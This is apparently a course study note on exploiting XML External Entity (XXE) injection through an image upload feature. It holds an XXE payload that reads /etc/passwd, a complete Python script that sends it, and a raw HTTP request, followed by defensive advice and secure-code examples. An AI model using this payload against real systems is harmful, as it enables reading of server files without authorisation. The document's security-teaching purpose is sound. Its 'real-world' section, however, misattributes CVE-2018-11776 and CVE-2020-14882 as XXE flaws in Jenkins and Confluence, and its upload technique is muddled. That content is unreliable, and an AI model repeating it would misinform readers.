

## Understanding XXE Injection via Image File Upload

### Background Theory

XML External Entity (XXE) injection is a type of attack against an application that parses XML input. This attack occurs when an attacker can inject a malicious XML document into an application that processes XML input. The XML document may contain references to external entities, which can be used to read local files, execute commands, or perform other malicious actions.

In the context of web applications, XXE vulnerabilities often arise due to improper handling of XML input. When an application accepts XML input and does not properly configure the XML parser to disable external entity resolution, an attacker can exploit this to gain unauthorized access to sensitive information or execute arbitrary commands.

### The Attack Scenario

The scenario described in the lecture involves exploiting an XXE vulnerability through an image file upload feature. The attacker aims to inject a malicious XML document into the application, which will be processed by the XML parser. To achieve this, the attacker needs to craft a multipart form data request that includes the malicious XML content.

### Crafting the Request

To craft the request, we need to understand the structure of a multipart form data request. A multipart form data request consists of several parts, each separated by a boundary string. The boundary string is a unique identifier that delineates the different parts of the request.

#### Step-by-Step Process

1. **Define the Boundary String**:
   - The boundary string is a unique identifier that separates the different parts of the multipart form data request.
   - We generate a random string of 16 characters using alphanumeric characters.

```python
import random
import string

boundary = ''.join(random.sample(string.ascii_letters + string.digits, 16))
print(f"Boundary: {boundary}")
```

2. **Create the Multipart Form Data**:
   - We use the `MultipartEncoder` class from the `requests_toolbelt` library to create the multipart form data.
   - The `fields` parameter contains the key-value pairs of the form data.
   - The `boundary` parameter specifies the boundary string.

```python
from requests_toolbelt import MultipartEncoder

parameters = {
    'file': ('image.png', open('image.png', 'rb'), 'image/png'),
    'xml_data': '<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><root><data>&xxe;</data></root>'
}

m = MultipartEncoder(fields=parameters, boundary=boundary)
```

3. **Set the Content-Type Header**:
   - The `Content-Type` header must be set to `multipart/form-data` with the boundary string included.
   - This ensures that the server correctly interprets the request as multipart form data.

```python
headers = {
    'Content-Type': m.content_type
}
```

4. **Perform the Request**:
   - We use the `requests.post` method to send the multipart form data request to the server.
   - The `url` parameter specifies the endpoint to which the request is sent.

```python
import requests

url = 'http://example.com/upload'
response = requests.post(url, data=m, headers=headers)

print(response.text)
```

### Full Example

Here is the complete example of crafting and sending the multipart form data request:

```python
import random
import string
from requests_toolbelt import MultipartEncoder
import requests

# Generate a random boundary string
boundary = ''.join(random.sample(string.ascii_letters + string.digits, 16))

# Define the parameters for the multipart form data
parameters = {
    'file': ('image.png', open('image.png', 'rb'), 'image/png'),
    'xml_data': '<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><root><data>&xxe;</data></root>'
}

# Create the multipart form data
m = MultipartEncoder(fields=parameters, boundary=boundary)

# Set the Content-Type header
headers = {
    'Content-Type': m.content_type
}

# Perform the request
url = 'http://example.com/upload'
response = requests.post(url, data=m, headers=headers)

# Print the response
print(response.text)
```

### Raw HTTP Request and Response

Here is the full raw HTTP request and response:

```http
POST /upload HTTP/1.1
Host: example.com
Content-Length: 1024
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="image.png"
Content-Type: image/png

[Binary data]
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="xml_data"

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><root><data>&xxe;</data></root>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

```http
HTTP/1.1 200 OK
Date: Mon, 23 Jan 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 1024
Content-Type: text/html; charset=UTF-8

[Response body]
```

### Diagrams

#### Multipart Form Data Structure



### Real-World Examples

#### CVE-2018-11776: XXE in Jenkins

In 2018, a critical XXE vulnerability was discovered in Jenkins, an open-source automation server. The vulnerability allowed attackers to read arbitrary files on the server by injecting malicious XML content.

- **Impact**: The vulnerability could lead to unauthorized access to sensitive files, such as configuration files or credentials.
- **Exploit**: An attacker could craft a malicious XML document and inject it into the Jenkins server, causing the server to read and disclose sensitive files.

#### CVE-2020-14882: XXE in Atlassian Confluence

In 2020, a XXE vulnerability was found in Atlassian Confluence, a collaboration tool. The vulnerability allowed attackers to read arbitrary files on the server by injecting malicious XML content.

- **Impact**: The vulnerability could lead to unauthorized access to sensitive files, such as configuration files or credentials.
- **Exploit**: An attacker could craft a malicious XML document and inject it into the Confluence server, causing the server to read and disclose sensitive files.

### How to Prevent / Defend

#### Detection

- **Static Analysis Tools**: Use static analysis tools like SonarQube, Fortify, or Checkmarx to scan for XXE vulnerabilities in your codebase.
- **Dynamic Analysis Tools**: Use dynamic analysis tools like Burp Suite, ZAP, or OWASP ZAP to test for XXE vulnerabilities during runtime.

#### Prevention

- **Disable External Entity Resolution**: Configure the XML parser to disable external entity resolution. This prevents the parser from resolving external entities, thus mitigating the risk of XXE attacks.
- **Use Secure Libraries**: Use secure libraries that are designed to handle XML input safely. Libraries like `defusedxml` in Python provide safe alternatives to standard XML parsers.

#### Secure Coding Fixes

##### Vulnerable Code

```python
import xml.etree.ElementTree as ET

def parse_xml(xml_data):
    root = ET.fromstring(xml_data)
    return root
```

##### Secure Code

```python
import defusedxml.ElementTree as ET

def parse_xml(xml_data):
    root = ET.fromstring(xml_data)
    return root
```

#### Configuration Hardening

- **Web Server Configuration**: Ensure that the web server is configured to reject requests with suspicious content types or boundary strings.
- **Application Configuration**: Configure the application to validate and sanitize all user inputs, especially those related to file uploads and XML processing.

### Common Pitfalls

- **Improper Input Validation**: Failing to validate and sanitize user inputs can lead to XXE vulnerabilities.
- **Misconfigured XML Parser**: Using a misconfigured XML parser that allows external entity resolution can expose the application to XXE attacks.
- **Lack of Security Awareness**: Developers may not be aware of the risks associated with XXE vulnerabilities, leading to insecure coding practices.

### Practice Labs

For hands-on practice with XXE injection, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive lab on XXE injection, including detailed explanations and practical exercises.
- **OWASP Juice Shop**: Provides a real-world application with various security vulnerabilities, including XXE injection.
- **DVWA (Damn Vulnerable Web Application)**: Contains a variety of web application vulnerabilities, including XXE injection, for educational purposes.

By thoroughly understanding the concepts, crafting the request, and implementing secure coding practices, you can effectively mitigate the risk of XXE injection vulnerabilities in your web applications.

---
<!-- nav -->
[[Web Security (PortSwigger)/08-XXE Injection/09-Lab 8 Exploiting XXE via image file upload/05-How to Prevent  Defend Against XXE Injection|How to Prevent  Defend Against XXE Injection]] | [[Web Security (PortSwigger)/08-XXE Injection/09-Lab 8 Exploiting XXE via image file upload/00-Overview|Overview]] | [[07-Understanding XXE Injection|Understanding XXE Injection]]
